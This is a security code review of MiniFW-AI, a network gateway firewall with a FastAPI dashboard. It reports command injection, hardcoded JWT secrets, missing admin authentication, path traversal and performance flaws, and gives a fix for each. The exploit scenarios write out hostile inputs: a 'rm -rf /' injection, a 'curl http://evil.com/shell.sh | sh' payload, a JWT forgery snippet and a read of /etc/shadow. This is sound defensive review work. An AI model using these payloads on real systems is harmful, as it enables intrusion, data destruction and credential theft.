



# MiniFW-AI Security Code Review

> **Review Date:** 2026-01-21  
> **Reviewer Role:** Senior Principal Software Architect & Security Researcher  
> **Project:** MiniFW-AI Network Gateway Firewall  

---

## 1. Executive Summary

| Metric | Value |
|--------|-------|
| **Code Health Score** | **3/10** |
| **Critical Severity Issues** | **7** |
| **High Severity Issues** | **8** |
| **Medium Severity Issues** | **5** |

### System Synopsis

MiniFW-AI is a **network gateway metadata protection layer** designed to monitor, score, and block suspicious traffic at the network edge without requiring client-side proxy configuration or TLS interception.

---

## System Architecture



---

## Data Flow & Scoring Logic



---

## Component Breakdown

| Component | File | Responsibility | Risk Level |
|-----------|------|----------------|------------|
| **Main Daemon** | `minifw_ai/main.py` | Orchestrates collection → scoring → enforcement loop | 🔴 High |
| **DNS Collector** | `minifw_ai/collector_dnsmasq.py` | Tails dnsmasq log, parses query events | 🟡 Medium |
| **Zeek Collector** | `minifw_ai/collector_zeek.py` | Tails Zeek ssl.log, extracts SNI | 🟡 Medium |
| **Feed Matcher** | `minifw_ai/feeds.py` | fnmatch patterns against allow/deny lists | 🟡 Medium |
| **Burst Tracker** | `minifw_ai/burst.py` | Sliding window rate detection per IP | 🔴 High (memory leak) |
| **Enforcer** | `minifw_ai/enforce.py` | Subprocess calls to nft CLI | 🔴 Critical (cmd injection) |
| **Policy Loader** | `minifw_ai/policy.py` | Reads policy.json, provides thresholds | 🟡 Medium |
| **Web App** | `web/app.py` | FastAPI dashboard, auth, static files | 🔴 High |
| **Auth Middleware** | `middleware/auth_middleware.py` | JWT cookie validation | 🔴 Critical (hardcoded key) |
| **Token Service** | `services/auth/token_service.py` | JWT creation/verification | 🔴 Critical (hardcoded key) |
| **Policy CRUD** | `services/policy/*.py` | Read/write policy.json | 🟠 High (race condition) |
| **Admin Routes** | `policy_crud/admin.py` | REST API for policy management | 🔴 Critical (no auth) |

---

## Execution Sequence (Per DNS Event)



---

## Key Configuration Files

| File | Purpose | Hot Reload? |
|------|---------|-------------|
| `config/policy.json` | Segment thresholds, weights, enforcement settings | Yes (every read) |
| `config/feeds/allow_domains.txt` | Whitelisted domain patterns | No (startup only) |
| `config/feeds/deny_domains.txt` | Blacklisted domain patterns | No (startup only) |
| `config/feeds/deny_ips.txt` | Static IP blocklist | No (startup only) |
| `config/feeds/deny_asn.txt` | ASN blocklist | No (startup only) |

> [!CAUTION]
> **This codebase is NOT production-ready.** It contains multiple critical security vulnerabilities including command injection, hardcoded secrets, missing authentication on admin routes, and race conditions that could be exploited to bypass security controls or gain RCE on the gateway device.

---

## 2. Critical Flaws (Must Fix)

### 🔴 CRITICAL-001: Command Injection via IP Address Parameter

**Location:** [enforce.py:29-38](file:///home/stardhoom/minifw-ai/app/minifw_ai/enforce.py#L29-L38)

**Issue:** The `ipset_add()` function passes user-controlled IP addresses directly to `subprocess.run()` without sanitization. A malicious DNS response or log injection could inject arbitrary shell commands.

**Exploit Scenario:**
```
Attacker crafts DNS log entry: "192.168.1.1; rm -rf / #"
→ Parsed as client_ip = "192.168.1.1; rm -rf / #"
→ Passed to subprocess: nft add element inet filter set { 192.168.1.1; rm -rf / # timeout 86400s }
```

**Cost of Inaction:** Remote Code Execution (RCE) on the firewall/gateway with root privileges. Complete network compromise.

**Fix:**
```python
import ipaddress

def ipset_add(set_name: str, ip: str, timeout: int) -> None:
    """Adds an IP to the native nftables set (VALIDATED)."""
    # CRITICAL: Validate IP before subprocess
    try:
        validated_ip = str(ipaddress.ip_address(ip))
    except ValueError:
        return  # Silently reject malformed IPs
    
    cmd = [
        "nft", "add", "element", "inet", "filter", set_name,
        "{", validated_ip, "timeout", f"{timeout}s", "}"
    ]
    subprocess.run(cmd, check=False)
```

---

### 🔴 CRITICAL-002: Hardcoded JWT Secret Key

**Location:** [token_service.py:6](file:///home/stardhoom/minifw-ai/app/services/auth/token_service.py#L6)

**Issue:** 
```python
SECRET_KEY = "your-secret-key-change-this-in-production"
```
This is a static, predictable secret committed to source control. Any attacker can forge valid JWT tokens.

**Exploit Scenario:**
```bash
# Attacker generates valid admin token
import jwt
token = jwt.encode({"sub": "admin", "exp": 9999999999}, "your-secret-key-change-this-in-production", algorithm="HS256")
# → Full admin access to firewall dashboard
```

**Cost of Inaction:** Complete authentication bypass. Attacker gains full admin control, can whitelist malicious domains, disable blocking.

**Fix:**
```python
import os
import secrets

def get_secret_key():
    key = os.environ.get("MINIFW_SECRET_KEY")
    if not key or key in ("your-secret-key-change-this-in-production", "super-secure-docker-key", "docker-change-this-in-prod"):
        raise RuntimeError("CRITICAL: MINIFW_SECRET_KEY not set or using default value")
    return key

SECRET_KEY = get_secret_key()
```

---

### 🔴 CRITICAL-003: Missing Authentication on 90% of Admin Routes

**Location:** [admin.py:121-270](file:///home/stardhoom/minifw-ai/policy_crud/admin.py#L121-L270)

**Issue:** Only the `/admin/events` endpoint uses `Depends(get_current_user)`. All other admin routes (allow-domain, deny-ip, deny-asn, deny-domain, policy CRUD) have **NO AUTHENTICATION**.

```python
# UNPROTECTED - Anyone can modify firewall rules
@router.post("/allow-domain")
def post_allow_domain(payload: AddDomainRequest):
    add_allow_domain(payload.domain)
    return {"message": "Domain added successfully"}
```

**Exploit Scenario:**
```bash
curl -X POST http://firewall:8080/admin/allow-domain \
  -H "Content-Type: application/json" \
  -d '{"domain": "*.malware.com"}'
# → Malware domains whitelisted, bypass all protection
```

**Cost of Inaction:** Unauthenticated firewall rule manipulation. Complete bypass of security protections.

**Fix:** Add authentication dependency to ALL admin routes:
```python
@router.post("/allow-domain")
def post_allow_domain(
    payload: AddDomainRequest,
    current_user: User = Depends(get_current_user)  # ADD THIS
):
```

---

### 🔴 CRITICAL-004: Hardcoded Secrets in Docker Configuration

**Location:** [docker-compose.yml:19,38](file:///home/stardhoom/minifw-ai/docker-compose.yml#L19)

**Issue:**
```yaml
environment:
  - MINIFW_SECRET_KEY=super-secure-docker-key  # HARDCODED
```

This key is in plaintext in the repository. Combined with CRITICAL-002, this means even if you read the secret from env vars, the env vars themselves are compromised.

**Cost of Inaction:** Anyone with repo access can forge admin tokens.

**Fix:** Use Docker secrets or external secret management:
```yaml
environment:
  - MINIFW_SECRET_KEY=${MINIFW_SECRET_KEY:?ERROR: Set MINIFW_SECRET_KEY}
# Or use Docker secrets:
secrets:
  jwt_secret:
    external: true
```

---

### 🔴 CRITICAL-005: Default Admin Credentials

**Location:** [create_admin.py:17-20](file:///home/stardhoom/minifw-ai/scripts/create_admin.py#L17-L20)

**Issue:**
```python
admin = create_user(
    db=db,
    username="admin",
    email="admin@minifw.local",
    password="admin123"  # PREDICTABLE DEFAULT
)
```

**Exploit Scenario:** First thing any attacker tries: `admin:admin123`

**Cost of Inaction:** Immediate admin access to any default installation.

**Fix:**
```python
import secrets
import getpass

def create_admin():
    password = getpass.getpass("Enter admin password (min 12 chars): ")
    if len(password) < 12:
        raise ValueError("Password must be at least 12 characters")
    # ... rest of creation
```

---

### 🔴 CRITICAL-006: Command Injection in ipset_create and nft_apply_forward_drop

**Location:** [enforce.py:9-27](file:///home/stardhoom/minifw-ai/app/minifw_ai/enforce.py#L9-L27), [enforce.py:40-67](file:///home/stardhoom/minifw-ai/app/minifw_ai/enforce.py#L40-L67)

**Issue:** `set_name`, `table`, and `chain` parameters come from policy.json which is user-editable via the web UI. These are passed directly to subprocess.

```python
# User-controlled via /admin/policy/enforcement endpoint
subprocess.run(["nft", "add", "set", "inet", "filter", set_name, ...])
```

**Exploit:** Via policy API:
```json
{"ipset_name_v4": "x; curl http://evil.com/shell.sh | sh #", ...}
```

**Cost of Inaction:** Authenticated RCE (but combined with CRITICAL-003, effectively unauthenticated RCE).

**Fix:** Validate all nft parameters against strict regex:
```python
import re

SAFE_NFT_NAME = re.compile(r'^[a-zA-Z][a-zA-Z0-9_]{0,31}$')

def validate_nft_identifier(name: str, field: str) -> str:
    if not SAFE_NFT_NAME.match(name):
        raise ValueError(f"Invalid {field}: must be alphanumeric, 1-32 chars")
    return name
```

---

### 🔴 CRITICAL-007: Path Traversal in Collectors Configuration

**Location:** [update_policy_service.py:153-165](file:///home/stardhoom/minifw-ai/app/services/policy/update_policy_service.py#L153-L165)

**Issue:** The `dnsmasq_log_path` and `zeek_ssl_log_path` are stored without validation and later used to read files:

```python
def update_collectors(dnsmasq_log_path: str, zeek_ssl_log_path: str, use_zeek_sni: bool):
    # NO PATH VALIDATION
    policy["collectors"] = {
        "dnsmasq_log_path": dnsmasq_log_path,  # Could be "/etc/passwd"
        ...
    }
```

**Exploit:** Set log path to `/etc/shadow`, then view parsed "DNS events" to leak system files.

**Cost of Inaction:** Arbitrary file read as the service user (likely root).

**Fix:**
```python
import os

ALLOWED_LOG_DIRS = ["/var/log/", "/opt/minifw_ai/logs/"]

def validate_log_path(path: str) -> str:
    abs_path = os.path.abspath(path)
    if not any(abs_path.startswith(d) for d in ALLOWED_LOG_DIRS):
        raise ValueError(f"Log path must be in {ALLOWED_LOG_DIRS}")
    return abs_path
```

---

## 3. Architectural & Performance Bottlenecks

### 🟠 HIGH-001: Unbounded Memory Growth in BurstTracker

**Location:** [burst.py:5-17](file:///home/stardhoom/minifw-ai/app/minifw_ai/burst.py#L5-L17)

**Analysis:**
```python
class BurstTracker:
    def __init__(self, window_seconds: int = 60):
        self.q = defaultdict(deque)  # NEVER CLEANED

    def add(self, ip: str) -> int:
        dq = self.q[ip]  # Creates entry for every unique IP FOREVER
        # Only cleans OLD ENTRIES within the deque, not empty deques
```

**Time Complexity:** O(1) amortized per add
**Space Complexity:** O(unique_IPs * window_entries) - **UNBOUNDED**

**Bottleneck:** After seeing 1M unique IPs, the dict holds 1M entries. Daily churn on a campus network could see 50k+ unique IPs. This grows indefinitely.

**Cost of Inaction:** Memory exhaustion → OOM kill → Firewall daemon dies → All traffic blocked/allowed (fail-open or fail-closed depending on nft rules).

**Optimization:**
```python
from collections import deque
import time

class BurstTracker:
    def __init__(self, window_seconds: int = 60, max_tracked_ips: int = 100000):
        self.window = window_seconds
        self.q = {}  # Not defaultdict - explicit control
        self.max_ips = max_tracked_ips
        self.last_cleanup = time.time()

    def add(self, ip: str) -> int:
        now = time.time()
        
        # Periodic cleanup of stale entries
        if now - self.last_cleanup > self.window:
            self._cleanup(now)
        
        if ip not in self.q:
            if len(self.q) >= self.max_ips:
                # LRU eviction: remove oldest
                oldest = min(self.q, key=lambda k: self.q[k][0] if self.q[k] else float('inf'))
                del self.q[oldest]
            self.q[ip] = deque()
        
        dq = self.q[ip]
        dq.append(now)
        while dq and (now - dq[0]) > self.window:
            dq.popleft()
        return len(dq)
    
    def _cleanup(self, now: float):
        empty = [ip for ip, dq in self.q.items() if not dq or (now - dq[-1]) > self.window]
        for ip in empty:
            del self.q[ip]
        self.last_cleanup = now
```

---

### 🟠 HIGH-002: TOCTOU Race Condition in Policy Updates

**Location:** [update_policy_service.py](file:///home/stardhoom/minifw-ai/app/services/policy/update_policy_service.py)

**Analysis:** Every update function follows this pattern:
```python
def update_segment(segment_name, ...):
    policy = get_policy()  # READ from file
    # ... modify in memory ...
    _save_policy(policy)   # WRITE to file
```

**Race Condition:**
```
Thread A: policy = get_policy()        # {segments: {a: 1}}
Thread B: policy = get_policy()        # {segments: {a: 1}}
Thread A: policy["segments"]["b"] = 2
Thread A: _save_policy(policy)         # {segments: {a: 1, b: 2}}
Thread B: policy["segments"]["c"] = 3
Thread B: _save_policy(policy)         # {segments: {a: 1, c: 3}}  ← LOSES segment b!
```

**Cost of Inaction:** Policy corruption, lost updates, inconsistent firewall state.

**Optimization:** Use file locking:
```python
import fcntl

def _save_policy_atomic(policy_data: Dict[str, Any]):
    policy_path = os.environ.get("MINIFW_POLICY", "config/policy.json")
    lock_path = f"{policy_path}.lock"
    
    with open(lock_path, 'w') as lock_file:
        fcntl.flock(lock_file, fcntl.LOCK_EX)
        try:
            _backup_policy()
            with open(policy_path, 'w') as f:
                json.dump(policy_data, f, indent=2)
        finally:
            fcntl.flock(lock_file, fcntl.LOCK_UN)
```

---

### 🟠 HIGH-003: O(n) Domain Matching with fnmatch

**Location:** [feeds.py:25-29](file:///home/stardhoom/minifw-ai/app/minifw_ai/feeds.py#L25-L29)

**Analysis:**
```python
def domain_allowed(self, domain: str) -> bool:
    return any(fnmatch.fnmatch(domain, pat) for pat in self.allow_domains)  # O(n) per check
```

**Time Complexity:** O(patterns) per DNS query  
If you have 10,000 deny patterns and 100 DNS queries/second:
→ 1,000,000 fnmatch operations per second

**Cost of Inaction:** CPU saturation under load, increased latency, potential packet drops.

**Optimization:** Use a trie or pre-compiled regex:
```python
import re

class FeedMatcher:
    def __init__(self, feeds_dir: str):
        ...
        # Compile patterns to single regex
        self._deny_regex = self._compile_patterns(self.deny_domains)
        self._allow_regex = self._compile_patterns(self.allow_domains)
    
    @staticmethod
    def _compile_patterns(patterns: list[str]) -> re.Pattern | None:
        if not patterns:
            return None
        # Convert fnmatch to regex: *.example.com → .*\.example\.com$
        regex_pats = [fnmatch.translate(p) for p in patterns]
        combined = "(" + ")|(".join(regex_pats) + ")"
        return re.compile(combined)
    
    def domain_denied(self, domain: str) -> bool:
        return bool(self._deny_regex and self._deny_regex.match(domain))
```

---

### 🟠 HIGH-004: Synchronous File I/O in Event Loop

**Location:** [collector_dnsmasq.py:6-14](file:///home/stardhoom/minifw-ai/app/minifw_ai/collector_dnsmasq.py#L6-L14)

**Analysis:**
```python
def tail_lines(path: Path) -> Iterator[str]:
    with path.open("r", ...) as f:
        while True:
            line = f.readline()  # BLOCKING
            if not line:
                time.sleep(0.2)  # BLOCKING
            yield line.strip()
```

This blocks the entire event loop. Combined with `pump_zeek()` doing similar blocking I/O in the main loop.

**Cost of Inaction:** Can't process burst traffic, latency spikes.

**Optimization:** Use `asyncio` + `aiofiles` or thread pool executor.

---

### 🟠 HIGH-005: Policy JSON Read on EVERY Request

**Location:** [get_policy_service.py:5-11](file:///home/stardhoom/minifw-ai/app/services/policy/get_policy_service.py#L5-L11)

**Analysis:**
```python
def get_policy() -> Dict[str, Any]:
    policy_path = os.environ.get("MINIFW_POLICY", "config/policy.json")
    with open(policy_path, 'r') as f:  # DISK I/O EVERY CALL
        return json.load(f)  # JSON PARSE EVERY CALL
```

Every helper function (`get_segments()`, `get_features()`, etc.) calls `get_policy()`, parsing the JSON repeatedly.

**Cost of Inaction:** Unnecessary I/O, ~1-5ms per request overhead.

**Optimization:** Cache with file mtime check:
```python
import os
import json
from functools import lru_cache

_policy_cache = {"data": None, "mtime": 0}

def get_policy() -> Dict[str, Any]:
    policy_path = os.environ.get("MINIFW_POLICY", "config/policy.json")
    current_mtime = os.path.getmtime(policy_path)
    
    if _policy_cache["mtime"] != current_mtime:
        with open(policy_path, 'r') as f:
            _policy_cache["data"] = json.load(f)
            _policy_cache["mtime"] = current_mtime
    
    return _policy_cache["data"]
```

---

### 🟠 HIGH-006: Privileged Container Without Necessity

**Location:** [docker-compose.yml:16](file:///home/stardhoom/minifw-ai/docker-compose.yml#L16)

**Issue:**
```yaml
minifw_daemon:
  privileged: true  # GOD MODE
```

**Cost of Inaction:** Container escape = full host compromise. Violates principle of least privilege.

**Fix:** Use specific capabilities:
```yaml
cap_add:
  - NET_ADMIN
  - NET_RAW
cap_drop:
  - ALL
```

---

### 🟠 HIGH-007: No Rate Limiting on Web API

**Location:** [app.py](file:///home/stardhoom/minifw-ai/app/web/app.py)

**Issue:** No rate limiting on any endpoint. An attacker can:
- Brute force login
- DoS the policy update endpoint (creating millions of backups)
- Exhaust DataTables API with massive queries

**Cost of Inaction:** Denial of service, credential stuffing attacks.

**Fix:** Add SlowAPI rate limiter:
```python
from slowapi import Limiter
from slowapi.util import get_remote_address

limiter = Limiter(key_func=get_remote_address)

@app.post("/auth/login")
@limiter.limit("5/minute")
async def login(request: Request, ...):
```

---

### 🟠 HIGH-008: No Input Validation on DataTables API

**Location:** [admin.py:214-230](file:///home/stardhoom/minifw-ai/policy_crud/admin.py#L214-L230)

**Issue:**
```python
@router.get("/api/events")
def api_get_events(
    draw: int = 1,
    start: int = 0,
    length: int = 10,  # No max limit!
    ...
):
```

An attacker can request `length=999999999`, causing:
- Memory exhaustion loading all events
- Disk I/O storm reading events.jsonl
- Response timeout/OOM

**Fix:**
```python
from pydantic import Field

class DataTablesParams(BaseModel):
    length: int = Field(default=10, le=100, ge=1)
    start: int = Field(default=0, ge=0)
```

---

## 4. Code Quality & Maintainability

### 🟡 MEDIUM-001: DRY Violation - Duplicate Policy Service Files

**Locations:** 
- [policy_crud/update_policy_service.py](file:///home/stardhoom/minifw-ai/policy_crud/update_policy_service.py)
- [app/services/policy/update_policy_service.py](file:///home/stardhoom/minifw-ai/app/services/policy/update_policy_service.py)

These are identical 185-line files. Changes to one won't propagate to the other.

---

### 🟡 MEDIUM-002: Hardcoded User in Template Context

**Location:** [allow_domain_controller.py:22](file:///home/stardhoom/minifw-ai/app/controllers/admin/allow_domain_controller.py#L22)

```python
"user": {"name": "Fahrezi"},  # Hardcoded, not from session
```

---

### 🟡 MEDIUM-003: Exception Swallowing

**Location:** [enforce.py](file:///home/stardhoom/minifw-ai/app/minifw_ai/enforce.py)

All `subprocess.run()` calls use `check=False`, silently ignoring failures. If nftables fails, no blocking occurs but no error is logged.

---

### 🟡 MEDIUM-004: No Logging Infrastructure

The codebase has almost no logging. When things fail in production, you'll have no visibility.

---

### 🟡 MEDIUM-005: Mixed Language Comments

Indonesian comments mixed with English (`# Dependency untuk get current user dari token`). Pick one language for maintainability.

---

## 5. Summary of Required Actions

| Priority | Issue | Effort | Risk if Ignored |
|----------|-------|--------|-----------------|
| P0 | CRITICAL-001: Command Injection in ipset_add | 2 hours | RCE |
| P0 | CRITICAL-002: Hardcoded JWT Secret | 1 hour | Auth Bypass |
| P0 | CRITICAL-003: Missing Auth on Admin Routes | 2 hours | Complete Bypass |
| P0 | CRITICAL-004: Hardcoded Docker Secrets | 1 hour | Auth Bypass |
| P0 | CRITICAL-005: Default Admin Password | 1 hour | Credential Reuse |
| P0 | CRITICAL-006: Command Injection in nft params | 2 hours | RCE |
| P0 | CRITICAL-007: Path Traversal in Log Paths | 1 hour | File Read |
| P1 | HIGH-001: Memory Leak in BurstTracker | 4 hours | OOM Crash |
| P1 | HIGH-002: Race Condition in Policy | 4 hours | Data Corruption |
| P1 | HIGH-003: O(n) Domain Matching | 8 hours | CPU Saturation |
| P1 | HIGH-006: Privileged Container | 1 hour | Container Escape |
| P1 | HIGH-007: No Rate Limiting | 4 hours | DoS/Brute Force |

> [!IMPORTANT]
> **Do NOT deploy this to production.** Address at minimum all P0 items first. A security-focused code review by a third party is recommended before any production deployment.
